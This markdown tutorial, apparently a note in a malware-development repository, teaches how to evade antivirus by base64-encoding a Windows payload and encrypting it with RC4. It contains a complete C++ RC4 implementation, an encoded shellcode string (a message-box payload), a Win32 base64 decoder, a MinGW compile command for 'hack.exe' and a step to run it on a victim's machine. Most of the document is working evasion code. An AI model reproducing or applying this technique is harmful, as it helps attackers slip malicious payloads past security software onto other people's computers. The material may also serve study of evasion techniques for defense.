



# 06 cryptography - RC4 + Base64 (payload)

In most cases in real life, a simple `base64` encoding of the payload is enough during a pentest, but if antivirus protection is well configured on the target host, then this is a problem. What if you encrypt it with a stream cipher?    

RC4 in `C/C++` looks like this:    

```cpp
// swap
void swap(unsigned char *a, unsigned char *b) {
  unsigned char tmp;
  tmp = *a;
  *a = *b;
  *b = tmp;
}

// key-scheduling algorithm (KSA)
void KSA(unsigned char *s, unsigned char *key, int keyL) {
  int k;
  int x, y = 0;

  // initialize
  for (k = 0; k < 256; k++) {
    s[k] = k;
  }

  for (x = 0; x < 256; x++) {
    y = (y + s[x] + key[x % keyL]) % 256;
    swap(&s[x], &s[y]);
  }
  return;
}

// pseudo-random generation algorithm (PRGA)
unsigned char* PRGA(unsigned char* s, unsigned int messageL) {
  int i = 0, j = 0;
  int k;

  unsigned char* keystream;
  keystream = (unsigned char *)malloc(sizeof(unsigned char)*messageL);
  for(k = 0; k < messageL; k++) {
    i = (i + 1) % 256;
    j = (j + s[i]) % 256;
    swap(&s[i], &s[j]);
    keystream[k] = s[(s[i] + s[j]) % 256];
	}
	return keystream;
}

// encryption and decryption
unsigned char* RC4(unsigned char *plaintext, unsigned char* ciphertext, unsigned char* key, unsigned int keyL, unsigned int messageL) {
  int i;
  unsigned char s[256];
  unsigned char* keystream;
  KSA(s, key, keyL);
  keystream = PRGA(s, messageL);

  for (i = 0; i < messageL; i++) {
    ciphertext[i] = plaintext[i] ^ keystream[i];
  }
  return ciphertext;
}
```

First of all we `base64` encoded our messagebox payload, which in turn will be encrypted with the `RC4` algorithm:    

    

```cpp
unsigned char* plaintext = (unsigned char*)"/EiB5PD////o0AAAAEFRQVBSUVZIMdJlSItSYD5Ii1IYPkiLUiA+SItyUD5ID7dKSk0xyUgxwKw8YXwCLCBBwckNQQHB4u1SQVE+SItSID6LQjxIAdA+i4CIAAAASIXAdG9IAdBQPotIGD5Ei0AgSQHQ41xI/8k+QYs0iEgB1k0xyUgxwKxBwckNQQHBOOB18T5MA0wkCEU50XXWWD5Ei0AkSQHQZj5BiwxIPkSLQBxJAdA+QYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVo+SIsS6Un///9dScfBAAAAAD5IjZX+AAAAPkyNhQkBAABIMclBukWDVgf/1UgxyUG68LWiVv/VTWVvdy1tZW93IQA9Xi4uXj0A";
unsigned char* key = (unsigned char*)"key";
unsigned char* ciphertext = (unsigned char *)malloc(sizeof(unsigned char) * strlen((const char*)plaintext));
RC4(plaintext, ciphertext, key, strlen((const char*)key), strlen((const char*)plaintext));
```

So in our malware we do the reverse process: first we decrypting it via `RC4` then decoding via `base64`. For base64 decoding process we use Win32 crypto API:   

```cpp
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

//...
//...
//...

int b64decode(const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen) {
  DWORD outLen;
  BOOL fRet;
  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
  if (!fRet) outLen = 0;  // failed
  return (outLen);
}

//...
```

Let's go to see everything in action. Compile our malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lcrypt32
```

   

Then run it at the victim's machine:    

```powershell
.\hack.exe
```

     


As you can see everything is worked perfectly :)    

via [https://cocomelonc.github.io/malware/2022/08/16/malware-av-evasion-9.html](https://cocomelonc.github.io/malware/2022/08/16/malware-av-evasion-9.html)    